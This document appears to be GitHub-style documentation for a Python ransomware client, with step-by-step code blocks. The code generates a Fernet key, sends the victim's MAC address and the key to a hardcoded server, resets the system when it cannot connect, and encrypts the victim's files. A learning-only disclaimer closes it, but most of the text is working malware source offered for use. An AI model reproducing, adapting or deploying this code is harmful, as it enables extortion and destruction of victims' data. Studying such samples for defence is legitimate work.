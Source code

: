 Client Documentation
====================

This Python module implements a simple ransomware that connects to a server, encrypts files, and decrypts them using the Fernet encryption algorithm. To use the ransomware, first import the necessary modules, including time, system utilities, encryption tools, and socket communication. Then, define the `Ransomware` class, initializing it with the server's host and port. Connect to the server using the `ConnectServer` method, which attempts to establish a connection and sends system information along with an encryption key. Once connected, you can encrypt files using the `Encrypted` method and decrypt them using the `Decrypted` method. Finally, instantiate the `Ransomware` class and execute the ransomware script, ensuring that the server's host and port are configured correctly.

1. Import the necessary modules:

.. code-block:: python
    :linenos:
        from time import sleep
        from modules.system import System
        from modules.encdec import Fernet, Encrypt, Decrypt
        from socket import socket, AF_INET, SOCK_STREAM

This Python module implements a simple ransomware that connects to a server, encrypts files, and decrypts them using the Fernet encryption algorithm.

2. Class Ransomware:

.. code-block:: python

    def __init__(self, host: str, port: int) -> None:
        self.key = Fernet.generate_key()
        self.host = host
        self.port = port
        self.system: System = System()
        self.server: socket = socket(AF_INET, SOCK_STREAM)
        self.Private = Fernet(self.key)

- Generate a random encryption key, initialize `System` object. 
- Create a `socket` for communication and a `Fernet` instance for encryption/decryption.

.. code-block:: python

    def ConnectServer(self, connected = False) -> None:
        retries = 0
        while not connected and retries < 3:
            try:
                self.server.connect((self.host, self.port))
                self.server.sendall(f'{self.system.Mac()}|{self.key.decode("utf-8")}'.encode('utf-8'))
                connected = True
            except:
                retries += 1
                if retries < 3:
                    sleep(10)
                else:
                    System.reset()
            finally:
                self.server.close()

- The `ConnectServer` method attempts to connect to the server via the provided IP address and port. If it cannot connect after 3 attempts, the system will reset.

.. code-block:: python

    def Encrypted(self):
        Encrypt(self.Private)

    def Decrypted(self):
        Decrypt(self.Private)

- The `Encrypted` method encrypts data using the generated private key.
- The `Decrypted` method decrypts data using the same private key.

.. code-block:: python

    if __name__ == '__main__':
        bot = Ransomware('192.168.1.12', 19100)
        bot.ConnectServer()
        bot.Encrypted()

**Please note**: *This code should only be used for learning purposes. Using it to perform illegal activities (such as cyber attacks) can lead to serious legal consequences. Always comply with legal regulations when using and developing open source code.*
